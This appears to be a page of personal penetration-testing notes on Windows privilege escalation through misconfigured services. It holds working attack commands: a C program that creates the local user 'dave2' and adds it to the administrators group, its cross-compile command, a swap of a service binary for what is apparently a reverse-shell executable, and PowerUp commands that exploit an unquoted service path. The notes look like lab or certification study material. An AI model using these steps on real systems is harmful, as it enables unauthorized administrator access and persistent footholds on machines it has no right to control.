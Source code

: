 ```jsx

stop-service service
start-service service
cmd /c sc qc GPGOrchestrator #check service detail
cmd /c sc start auditTracker
//c:\windows\system32\sc.exe 

C:\DevelopmentExecutables>sc qc auditTracker

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: auditTracker
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\DevelopmentExecutables\auditTracker.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : auditTracker
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

sc start auditTracker

```

Add User

```jsx

#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
Get-LocalGroupMember administrators
```

### Unquoted Service

```jsx
//BUILTIN\Users:(CI)(S,WD,AD)
icacls "C:\Skylark\Development Binaries 01" 
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """  #cmd
copy C:\Users\Public\rs.exe Development.exe
Start-Service DevService 
Stop-Service DevService 

//powerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
//john
```